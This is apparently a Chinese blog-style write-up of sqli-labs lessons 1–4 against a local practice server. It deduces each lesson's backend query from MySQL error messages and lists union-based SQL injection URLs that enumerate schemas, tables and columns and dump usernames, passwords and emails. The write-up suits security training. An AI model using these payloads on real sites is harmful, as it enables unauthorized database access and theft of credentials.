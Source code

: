 ```yaml
---
layout: post
title:  "0x01 联合查询注入"
date:   2020-03-24 16：43
categories: [pentest]
tags: sqli-labs
---
```

sqli-labs less1-4
<!-- more -->
mysql注入语句

联合查询

> 1. 单引号判断
>
> 2. 查询列数
>
>    ```sql
>      ?id=1' oder by num %23
>    ```
>
> 3. 查询返回列
>
>    ```mysql
>      ?id=-1' union select 1,2,3 %23
>    ```
>
> 4. 查询数据库
>
>    ```mysql
>      ?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata%23
>    ```
>
> 5. 查询表名
>
>    ```mysql
>      ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'%23
>    ```
>
> 6. 查询列名
>
>    ```mysql
>      ?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'%23
>    ```
>
> 7. 查询数据
>
>    ```mysql
>      ?id=-1' union select 1,username,password from users where id =2%23
>    ```

## less1

url

```u
http://127.0.0.1:9999/Less-1/?id=1'
```

报错信息

```mysql
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1 
```

对此猜测数据库查询语句为**错误**

```mysql
select username,password from users where id = $id limit 0,1 
```

实际的源码为

```mysql
SELECT * FROM users WHERE id='$id' LIMIT 0,1
```

这里应该是字符型注入，报错信息中有效信息应该为

``` html
'1'' LIMIT 0,1
可以发现是'1'多了一个'导致报错的
```

那么我们输入payload后在数据库中执行的语句为

```mysql
SELECT * FROM users WHERE id='-1' union select 1,username,password from users where id =2#' LIMIT 0,1
```

## less2

url

```
http://127.0.0.1:9999/Less-2/?id=1%27
```

报错信息

```mysql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1
```

其中有效的报错信息就是`' LIMIT 0,1`,那么可以判断这是数字型注入，判断数据库查询语句为

```msyql
select * from users where id = $id limit 0,1
```

输入payload后在数据库中执行的语句为

```mysql
select * from users where id = -1 union select 1,id,email_id from emails where id = 1 #limit 0,1
```

对其进行手注

```mysql
http://127.0.0.1:9999/Less-2/?id=1 order by 3 %23
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,2,3 %23
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata %23
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema ="security"
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'%23
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,id,email_id from emails%23
PS:查询其他表时要保持查询列数一致
```

## less3

url

```
http://127.0.0.1:9999/Less-3/?id=1%27
```

报错信息

```msyql
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1 
```

有用信息为`'1'') LIMIT 0,1`,多了个括号，猜测源码为

```mysql
select * from users where id = ('&id') LIMIT 0,1
```

输入payload后在数据库中执行的语句为

```mysql
select * from users where id = ('-1') union select 1,id,email_id from emails where id =1#') LIMIT 0,1
```

对其进行手注

```mysql
http://127.0.0.1:9999/Less-3/?id=-1%27) order by 3%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,2,3%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,2,group_concat(schema_name) from information_schema.schemata%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails'%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,id,email_id from emails where id =1 %23
```

## less4

url

```msyql
http://127.0.0.1:9999/Less-4/?id=1'
```

单引号未报错，尝试双引号报错

```mysql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1
```

有用信息为`"1"") LIMIT 0,1`，猜测数据库中查询语句为

```mysql
select * from users where id = ("$id") LIMIT 0,1
```

输入payload后数据库执行语句为

```mysql
select * from users where id =("-1") union select 1,id,email_id from emails where id =1 #") LIMIT 0,1
```

对其进行手注

```mysql
http://127.0.0.1:9999/Less-4/?id=-1") union select 1,2,group_concat(schema_name) from information_schema.schemata%23
http://127.0.0.1:9999/Less-4/?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'%23
http://127.0.0.1:9999/Less-4/?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails'%23
http://127.0.0.1:9999/Less-4/?id=-1") union select 1,id,email_id from emails where id =1%23
```
